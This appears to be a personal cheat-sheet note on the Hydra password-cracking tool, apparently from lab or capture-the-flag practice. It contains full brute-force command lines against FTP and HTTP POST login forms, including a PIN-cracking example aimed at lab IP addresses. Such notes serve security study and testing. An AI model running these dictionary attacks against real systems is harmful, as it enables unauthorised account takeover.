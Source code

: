 ```yaml
---
{"dg-publish":true,"permalink":"/notes/hydra/"}
---
```


- Crack pass with pass dic
- Supports FTP, POP3, IMAP, SMTP, SSH, and all methods related to HTTP.

| Option                                                                                                              | Description                                                   |
| ------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------- |
| `hydra -l username -P wordlist.txt server service`                                                                  | General command-line                                          |
| `hydra -l mark -P /usr/share/wordlists/rockyou.txt IP ftp`                                                          | E.g. ftp                                                      |
| `hydra -l mark -P /usr/share/wordlists/rockyou.txt ftp://IP`                                                        | E.g. ftp                                                      |
| `hydra -l <username> -P <wordlist> 10.10.181.239 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V` | Web form                                                      |
| `server`                                                                                                            | hostname or IP address of the target server.                  |
| `service`                                                                                                           | service which are trying to <br>launch the dictionary attack. |
| `-l`                                                                                                                | specifies the (SSH) **username** for login                    |
| `-P`                                                                                                                | indicates a **list of passwords**                             |
| `-t 4`                                                                                                              | sets the number of **threads** to spawn                       |
| `-s`                                                                                                                | **port** number                                               |
| `-V`                                                                                                                | Verbose for every attempt                                     |
| `-vV`                                                                                                               | very verbose<br>shows login+pass for each attempt             |
| `-d`                                                                                                                | Debugging                                                     |
| `-L`                                                                                                                | indicates a **list of users**                                 |
| `-p`                                                                                                                | specifies the (SSH) **password** for login                    |
| `-f`                                                                                                                | stops Hydra after finding a working password                  |
| `http-post-form`                                                                                                    | the type of the form is POST                                  |
| `<path>`                                                                                                            | the login page URL, for example, `login.php`                  |
| `<invalid_response>`                                                                                                | part of the response when the login fails                     |
## Post Web Form
- Brute force web forms attack.
- You must know which type of request it is making; GET or POST methods are commonly used.
- You can use your browser’s network tab (in developer tools) to see the request types or view the source code.
```shell
hydra <username> <wordlist> 10.10.181.239 http-post-form "<path>:<login_credentials>:invalid_response>"
```

### POST login form:
```shell
hydra -l <username> -P <wordlist> 10.10.181.239 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

- The login page is only `/`, i.e., the main IP address.
- The `username` is the form field where the username is entered
- The specified username(s) will replace `^USER^`
- The `password` is the form field where the password is entered
- The provided passwords will be replacing `^PASS^`
- Finally, `F=incorrect` is a string that appears in the server reply when the login fails
---
![Pasted image 20231206174317.png](/img/user/attachments/Pasted%20image%2020231206174317.png)
```sh
hydra -l '' -P 3digits.txt -f -v 10.10.180.149 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

The command above will try one password after another in the `3digits.txt` file. It specifies the following:

- `-l ''` indicates that the login name is blank as the security lock only requires a password
- `-P 3digits.txt` specifies the password file to use
- `-f` stops Hydra after finding a working password
- `-v` provides verbose output and is helpful for catching errors
- `10.10.180.149` is the IP address of the target
- `http-post-form` specifies the HTTP method to use
- `"/login.php:pin=^PASS^:Access denied"` has three parts separated by `:`
    - `/login.php` is the page where the PIN code is submitted
    - `pin=^PASS^` will replace `^PASS^` with values from the password list
    - `Access denied` indicates that invalid passwords will lead to a page that contains the text “Access denied”
- `-s 8000` indicates the port number on the target